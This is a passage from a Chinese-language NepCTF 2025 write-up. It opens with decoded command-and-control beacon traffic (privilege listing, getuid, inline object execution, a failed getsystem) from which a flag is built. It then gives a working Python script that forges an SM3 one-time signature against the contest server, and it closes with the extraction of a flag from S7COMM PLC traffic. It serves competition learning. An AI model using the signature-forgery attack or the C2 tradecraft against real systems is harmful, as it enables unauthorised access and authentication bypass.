 B'\x 00\x 1 c\x 00\x 00\x 00\x 10 SeDebugPrivilege\x 00\x 00\x 00\x 0 eSeTcbPrivilege\x 00\x 00\x 00\x 16 SeCreateToke
 MD 5: 8 b 790 ecaad 62 b 13 b 5 c 2 ccb 1330 abb 9 d 7

Packet number: 123
HTTP request 
http://192.168.27.132:12580/ca
Length raw data: 784
HMAC signature invalid

Packet number: 130
HTTP request POST
http://192.168.27.132:12580/submit.php?id=1389642286
Length raw data: 100
Counter: 5
Callback: 0 CALLBACK_OUTPUT
----------------------------------------------------------------------------------------------------
SeShutdownPrivilege
SeChangeNotifyPrivilege
SeUndockPrivilege

----------------------------------------------------------------------------------------------------

Packet number: 144
HTTP response (for request 141 GET)
Length raw data: 48
Timestamp: 1736753656 20250113-073416
Data size: 8
Command: 27 COMMAND_GETUID
 Arguments length: 0

Packet number: 144
HTTP request 
http://192.168.27.132:12580/ca
Length raw data: 48
HMAC signature invalid

Packet number: 151
HTTP request POST
http://192.168.27.132:12580/submit.php?id=1389642286
Length raw data: 68
Counter: 6
Callback: 16 CALLBACK_TOKEN_GETUID
B'DESKTOP-OKEP 6 GL\\JohnDoe'

Packet number: 169
HTTP response (for request 165 GET)
Length raw data: 3264
Timestamp: 1736753716 20250113-073516
Data size: 3239
Command: 100 COMMAND_INLINE_EXECUTE_OBJECT
 Arguments length: 3231
 B'\x 00\x 00\x 04@\x 00\x 00\x 00\x 00\x 00\x 00\x 05\xb 2 H\x 83\xec 8 L\x 8 dL$ E 3\xc 0\xba\x 01\x 00\x 00\x 00\xb 9\x 14\
 MD 5: 957 b 9 ec 334 b 8 fd 09 dcc 1 d 5330 c 5 a 4 edb

Packet number: 169
HTTP request 
http://192.168.27.132:12580/ca
Length raw data: 3264
HMAC signature invalid

Packet number: 176
HTTP request POST
http://192.168.27.132:12580/submit.php?id=1389642286
Length raw data: 68
Counter: 7
Callback: 0 CALLBACK_OUTPUT
----------------------------------------------------------------------------------------------------
Getsystem failed.
----------------------------------------------------------------------------------------------------
Extra packet data: b'\x 00\x 00\x 00'

Commands summary:
 27 COMMAND_GETUID: 1
 32 COMMAND_PS: 1
 53 COMMAND_LS: 1
 77 COMMAND_GETPRIVS: 1
 78 COMMAND_EXECUTE_JOB: 1
 100 COMMAND_INLINE_EXECUTE_OBJECT: 1

Callbacks summary:
 0 CALLBACK_OUTPUT: 2
 16 CALLBACK_TOKEN_GETUID: 1
 17 CALLBACK_PROCESS_LIST: 1
 22 CALLBACK_PENDING: 1
 30 CALLBACK_OUTPUT_OEM: 1
```

可知用户名为 `JohnDoe` ，并且获得的 secret 为 `5c1eb2c4-0b85-491f-8d50-4e965b9d8a43` 。

拼接得到 Flag `NepCTF{JohnDoe_192.168.27.132:12580_5c1eb2c4-0b85-491f-8d50-4e965b9d8a43}` 。

## Crypto

### Nepsign

题目在 SM3 上实现了一个单次签名，但服务器允许对任意消息进行多次请求签名。通过找出链中每一步所需的链元，最终拼出对目标消息的签名。

```python
import socket
import ssl
import random
from ast import literal_eval
from gmssl import sm3

HOST,PORT = "nepctf32-cpjy-dzfu-pjzm-gti8isehg505.nepctf.com",443

def sm3_bytes(m: bytes) -> bytes:
    return bytes.fromhex(sm3.sm3_hash(list(m)))

def compute_steps(m: bytes) -> list[int]:
    h = sm3_bytes(m)
    a = list(h)
    hx = sm3.sm3_hash(list(m))
    checksum = []
    for sym in "0123456789abcdef":
        s = sum(pos for pos, ch in enumerate(hx, 1) if ch == sym) % 255
        checksum.append(s)
    return a + checksum

def recv_until(s: ssl.SSLSocket, tok: bytes) -> bytes:
    buf = b""
    while not buf.endswith(tok):
        buf += s.recv(1)
    return buf

ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

raw = socket.create_connection((HOST, PORT))
s = ctx.wrap_socket(raw, server_hostname=HOST)

print(recv_until(s, b"> "))

# 计算目标消息的步长数组
target = b"happy for NepCTF 2025"
tsteps = compute_steps(target)

# 存放各段链元
qqs = [None] * 48
flag = 0

# 收集链元
for k in range(48):
    want = tsteps[k]
    attempts = 0
    print(f"[*] Mining segment {k}, target step = {want}")
    while True:
        attempts += 1
        rnd = random.randbytes(8)
        if compute_steps(rnd)[k] != want:
            if attempts % 500 == 0:
                print(f"    segment {k}: tried {attempts} msgs…", end="\r", flush=True)
            continue
        print(f"    rnd {k}: {rnd.hex().encode()}")
        if flag == 0 :
            flag = 1
        elif flag == 1 :
            recv_until(s, b"> ")
        s.sendall(b"1\n")
        recv_until(s, b"msg: ")
        s.sendall(rnd.hex().encode() + b"\n")
        line = recv_until(s, b"\n").decode().strip()
        print(line)
        sig_list = literal_eval(line)
        qqs[k] = sig_list[k]
        print(f"\n    ✓ segment {k} done in {attempts} tries.")
        break

# 拼接并提交伪造签名
recv_until(s, b"> ")
s.sendall(b"2\n")
recv_until(s, b"give me a qq: ")
forged = "[" + ",".join(repr(x) for x in qqs) + "]"
s.sendall(forged.encode() + b"\n")

# 读 flag
flag = recv_until(s, b"\n").decode().strip()
print(flag)

s.close()
```

## ICS

### 薯饼的 PLC

打开附件发现全是 TCP ，通过 TCP Payload 发现存在 S7COMM 流量，查看端口发现 PLC 端口为 `11102` ，主机端口为 `49810` 。

通过编辑-首选项-Protocols-TPKT 中的 TPKT TCP port (s) 中加上 `11102` 和 `49810` 。

通过 `s7comm` 筛选可以发现存在请求包中的 DB number 有 `1002` 和 `1003` 。

通过 `s7comm.param.item.db == 1002` 筛选可以发现存在请求包中所请求的地址均为**连续**。

通过脚本提取 DB number 为 `1002` 的请求包的响应包，从响应包中获取 Data 数据。由于通过跟踪 TCP 流发现均在一个 TCP 流中，并且 DB number 为请求包中倒数第五第六个字节，Data 为响应包中倒数第二个字节，因此直接将原始数据丢进去还原出数据。（ hex\_blob 有所省略）

```python
hex_blob = """
0300001f02f0803201000008fc000e00000401120a1002000103ea84001f50
0300001b02f0803203000008fc0002000600000401000400083000
0300001f02f0803201000008fc000e00000401120a1002000103ea84001f51
0300001b02f0803203000008fc0002000600000401000400083100
0300001f02f0803201000008fc000e00000401120a1002000103ea84001f52
0300001b02f0803203000008fc0002000600000401000400083000
0300001f02f0803201000008fc000e00000401120a1002000103ea84001f53
0300001b02f0803203000008fc0002000600000401000400083000
0300001f02f0803201000008fc000e00000401120a1002000103ea84001f54
0300001b02f0803203000008fc0002000600000401000400083100
...
"""

# 预处理：拆分非空行
hex_strings = [line.strip() for line in hex_blob.strip().splitlines() if line.strip()]

# 核心逻辑
result = ""

for i in range(0, len(hex_strings), 2):
    request = bytes.fromhex(hex_strings[i])
    response = bytes.fromhex(hex_strings[i + 1])

    db_number = int.from_bytes(request[-6:-4], byteorder='big')
    if db_number == 1002:
        data_byte = response[-2]
        result += f"{data_byte:02x}"

# 输出结果
print(f"十六进制结果: {result}")
print(f"ASCII表示: {bytes.fromhex(result).decode()}")
"""
十六进制结果: 3031303031313130303131303031303130313131303030303031303030303131303130313031303030313030303131303031313131303131303031313130303030313130303031313030313130313130303031313031313030303131303131303031313030313130303031313130303130313130303130303030313031313031303031313130303130303131303030303030313130303030303131303031303030303130313130313031313030313130303031313130303130303131313030313031313030303031303031303131303130303131303030313031313030303031303031313031303030313130303130303030313031313031303031313030313030303131303031303030313130313031303131303030313130303131303130303030313130303130303031313031313130303131303130313030313130303130303031313030313130303131303030313031313030303130303131313131303100000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
ASCII表示: 0100111001100101011100000100001101010100010001100111101100111000011000110011011000110110001101100110011000111001011001000010110100111001001100000011000001100100001011010110011000111001001110010110000100101101001100010110000100110100011001000010110100110010001100100011010101100011001101000011001000110111001101010011001000110011001100010110001001111101                                              
"""
```

将 ASCII 表示的结果去掉零和一外其他字符转换成字符串即可得到 Flag。

```
0100111001100101011100000100001101010100010001100111101100111000011000110011011000110110001101100110011000111001011001000010110100111001001100000011000001100100001011010110011000111001001110010110000100101101001100010110000100110100011001000010110100110010001100100011010101100011001101000011001000110111001101010011001000110011001100010110001001111101

NepCTF{8c666f9d-900d-f99a-1a4d-225c4275231b}
```
